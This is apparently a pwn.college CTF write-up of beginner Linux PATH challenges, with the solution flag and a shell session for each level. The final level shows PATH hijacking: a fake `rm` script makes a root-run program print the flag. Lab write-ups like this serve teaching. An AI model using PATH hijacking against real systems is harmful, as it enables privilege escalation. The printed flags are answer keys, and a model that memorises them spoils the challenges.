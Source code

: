 # Pondering PATH

## The PATH Variable
In this level, you will disrupt the operation of the `/challenge/run` program. This program will DELETE the flag file using the `rm` command. However, if it can't find the `rm` command, the flag will not be deleted, and the challenge will give it to you! Thus, you must make it so that `/challenge/run` also can't find the `rm` command!
### Solve
**Flag:** `pwn.college{wzdxdoXUWNi-kpTSI0hd37lJKlM.QX2cDM1wyNyAzNzEzW}`
- reassign `PATH` as an empty variable.
- this way, it'll not find any system commands including `rm`.
```bash
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{wzdxdoXUWNi-kpTSI0hd37lJKlM.QX2cDM1wyNyAzNzEzW}
```


## Setting PATH
Let's practice. This level's `/challenge/run` will run the `win` command via its bare name, but this command exists in the `/challenge/more_commands/` directory, which is not initially in the `PATH.` The win command is the only thing that `/challenge/run` needs, so you can just overwrite `PATH` with that one directory.
### Solve
**Flag:** `pwn.college{AHZqld6o44s-RgoDvT6v8wluaqz.QX1cjM1wyNyAzNzEzW}`
```
hacker@path~setting-path:~$ PATH="/challenge/more_commands/"
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{AHZqld6o44s-RgoDvT6v8wluaqz.QX1cjM1wyNyAzNzEzW}
```


## Finding Commands
In this challenge, we added a `win` command somewhere in your `$PATH`, but it won't give you the flag. Instead, it's in the same directory as a `flag` file that we made readable by you! You must find `win` (with the `which` command), and `cat` the flag out of that directory!
### Solve
**Flag:** `pwn.college{E28nrJl7Xcaola7meaMnjWuAxFL.01NzEzNxwyNyAzNzEzW}`
```
hacker@path~finding-commands:~$ which win
/challenge/paths/2424/win
hacker@path~finding-commands:~$ ls /challenge/paths/2424
flag  win
hacker@path~finding-commands:~$ cat /challenge/paths/2424/flag
pwn.college{E28nrJl7Xcaola7meaMnjWuAxFL.01NzEzNxwyNyAzNzEzW}
```


## Adding Commands
Previously, the `win` command that `/challenge/run` executed was stored in `/challenge/more_commands.` This time, `win` does not exist! Recall the final level of `Chaining Commands`, and make a shell script called `win`, add its location to the `PATH`, and enable `/challenge/run` to find it!
### Solve
**Flag:** `pwn.college{YA5lVPnLsA7iJfoZQJMu4lh5eIS.QX2cjM1wyNyAzNzEzW}`\
Things to keep in mind:
- Create the file `win` and not `win.sh`
- Add both paths to `PATH` variable, of `cat` as well as `win`.
- Make `win` file executable.
> `win` content
```bash
#!/bin/bash

cat /flag
```
> Output
```
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ pwd
/home/hacker
hacker@path~adding-commands:~$ ls
 COLLEGE   Desktop   PWN   a   instructions   msg   myflag   not-the-flag   processes   solve.sh   the-flag   win.sh   x.sh  '~'
hacker@path~adding-commands:~$ vim win.sh
hacker@path~adding-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~adding-commands:~$ PATH="/home/hacker:/run/dojo/bin"
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: win: command not found
It looks like that did not work... Did you set PATH correctly?
hacker@path~adding-commands:~$ echo $PATH
/home/hacker:/run/dojo/bin
hacker@path~adding-commands:~$ mv win.sh win
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: /home/hacker/win: Permission denied
It looks like that did not work... Did you set PATH correctly?
hacker@path~adding-commands:~$ chmod a+x win
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{YA5lVPnLsA7iJfoZQJMu4lh5eIS.QX2cjM1wyNyAzNzEzW}
```


## Hijacking Commands
Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the `rm` command. But unlike before, it will not print anything out for you.

How can you solve this? You know that `rm` is searched for in the directories listed in the `PATH` variable. You have experience creating the `win` command when the previous challenge needed it. What else can you create?
### Solve
**Flag:** `pwn.college{gzIDHbazS5GSSVesJyqhBY5koy6.QX3cjM1wyNyAzNzEzW}`\
*Facts:*
- `/challenge/run` makes use of the command `rm /flag`.
- `/challenge/run` is executed as root.
- `cat` and `rm` both exist in the same directory.
- `cat` is a symbolic link pointing to another file.

*Approach:*
- create another `rm` file in `/home/hacker` directory which simply prints the content of `flag` file.
- make it executable.
- create another symbolic link `cat` in `/home/hacker` dir and point it where the original `cat` was pointing.
- it has same permissions as the file it points to.
- update the `PATH` variable such it only contains the path `/home/hacker`.
- run the `/challenge/run` command.

> new `rm` content
```bash
#!/bin/bash

cat /flag
```
> output
```
hacker@path~hijacking-commands:~$ ls
 COLLEGE   Desktop   PWN   a   cat   instructions   msg   myflag   not-the-flag   processes   rm   solve.sh   the-flag   win   x.sh  '~'
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ ls -l cat
lrwxrwxrwx 1 hacker hacker 65 Sep 29 05:24 cat -> /nix/store/mp7ba85zcqdj2sqwa29pql02s6nqpcxy-coreutils-9.7/bin/cat
hacker@path~hijacking-commands:~$ PATH="/home/hacker"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{gzIDHbazS5GSSVesJyqhBY5koy6.QX3cjM1wyNyAzNzEzW}
```


### New Learnings
- the `PATH` variable
    - `PATH` in Linux is an environment variable that tells the shell where to look for executables when you type a command.

        - It’s a colon-separated list of directories (e.g., `/usr/bin:/bin:/usr/local/bin`).
        - When you run `ls`, the shell searches these directories in order until it finds the `ls` program.
        - You can add custom paths (e.g., `export PATH=$PATH:/home/user/bin`) to run your own scripts without giving full paths.

- `builtins` don't require the `PATH` variable.

- `which` command shows the full path of the executable that will run when you type a command.
